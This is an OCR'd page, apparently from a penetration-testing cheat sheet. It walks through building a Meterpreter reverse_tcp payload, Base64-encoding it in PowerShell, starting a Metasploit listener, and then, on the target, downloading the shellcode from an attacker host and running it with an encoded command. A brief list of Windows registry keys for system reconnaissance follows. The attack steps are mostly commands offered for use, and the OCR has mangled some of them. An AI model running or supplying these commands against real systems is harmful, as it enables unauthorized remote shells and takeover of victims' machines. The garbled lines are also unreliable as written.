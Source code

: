
USING POWERSHELL TO LAUNCH METERPRETER 2ND METHOD) ON BT ATTACK BOX

1. msfpayload windows/meterpreter/reverse_tcp LHOST=10.1.1.1
LPORT=8080 R	msfencode -t psh -a x86


ON WINDOWS ATTACK BOX

1. c:\ powershell
2. PS c:\ $cmd = ' PASTE THE CONTENTS OF THE PSH SCRIPT HERE '
3.	PS c:\ $u = [System.Text.Encoding]::Unicode.GetBytes($cmd)
4.	PS c:\ $e = [Convert]::ToBase64String($u)
5.	PS c:\ $e
6. Copy contents of $e


START LISTENER ON ATTACK BOX

1. ./msfconsole
2. use exploit/multi/handler
3. set payload windows/meterpreter/reverse_tcp
4.	set LHOST 1.1.1.1
5. set LPORT 8080
6.	exploit -j


ON TARGET SHELL ( 1 : DOWNLOAD SHELLCODE , 2: EXECUTE)

1. c:\ powershell -noprofile -noninteractive -command "& f$client=new-object System.Net.WebClient;$client.DownloadFile('http://1.1.1.1/shell.txt ','c:\windows\temp\_shell.txt')}"
2. c:\ powershell -noprofile -noninteractive -noexit -command "& i$cmd=type 1c:\windows\temp\ shell.txt';powershell -noprofile - noninteractive -noexit -encodedCommand $cmdl"
PROFIT


# WINDOWS REGISTRY

OS INFORMATION

HKLM\Software\Microsoft\Windows NT\CurrentVersion


PRODUCT NAME

HKLM\Software\Microsoft\Windows NT\CurrentVersion /v ProductName


DATE OF INSTALL

-HKLM\Software\Microsoft\Windows NT\CurrentVersion /v 2nstallDate


REGISTERED OWNER

HKLM\Software\Microsoft\Windows NT\CurrentVersion /v RegisteredOwner


SYSTEM ROOT

HKLM\Software\Microsoft\Windows NT\CurrentVersion /v SystemRoot
